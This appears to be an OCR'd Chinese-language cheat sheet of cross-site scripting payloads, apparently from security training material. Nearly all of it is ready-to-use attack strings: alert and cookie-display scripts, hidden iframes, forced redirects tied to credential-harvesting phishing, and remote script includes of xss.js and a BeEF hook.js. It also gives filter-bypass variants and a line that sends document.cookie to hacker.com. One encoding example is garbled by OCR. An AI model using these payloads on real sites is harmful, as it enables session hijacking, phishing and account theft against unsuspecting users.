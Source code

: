 ```html
弹框警告

此脚本实现弹框提示，一般作为漏洞测试或者演示使用,类似SQL注入漏洞测试中的单引号', 一旦此脚本能执行，也就意

味着后端服务器没有对特殊字符做过滤<>/' 这样就可以证明，这个页面位置存在了XSS漏洞。

<script>alert('xss')</script>

<script>alert(document.cookie)</script>

页面嵌套

<iframe src=http://www.baidu.com width=300 height=300></iframe>

<iframe src=http://www.baidu.com width=0 height=0 border=0></iframe>

页面重定向

<script>window.location="http://www.qfedu.com"</script>

<script>location.href="http://www.baidu.com"</script>

弹框警告并重定向

<script>alert("请移步到我们的新站");location.href="http://www.qfedu.com"</script>

<script>alert('xss');location.href="http://10.1.64.35/mutillidae/robots.txt"</script>

这里结合了一些社工的思路，例如，通过网站内部私信的方式将其发给其他用户。如果其他用户点击并且相信了这个信

息，则可能在另外的站点重新登录账户（克隆网站收集账户）

访问恶意代码

<script src="http://www.qfedu.com/xss.js"></script>

<script src="http://BeEF_IP:3000/hook.js"></script> #结合BeEF收集用户的cookie

巧用图片标签

<img src="#" onerror=alert('xss')>

<img src="javascript:alert('xss');">

<img src="http://BeEF_IP:3000/hook.js"></img>

绕开过滤的脚本

大小写 <ScrIpt>alert('xss')</SCRipt>

字符编码 采用URL、Base64等编码

<a

href="javascript:alert

;("xss")">yangge</a>

收集用户cookie

打开新窗口并且采用本地cookie访问目标网页，打开新窗口并且采用本地cookie访问目标网页。

<script>window.open("http://www.hacker.com/cookie.php?cookie="+document.cookie)</script>
```
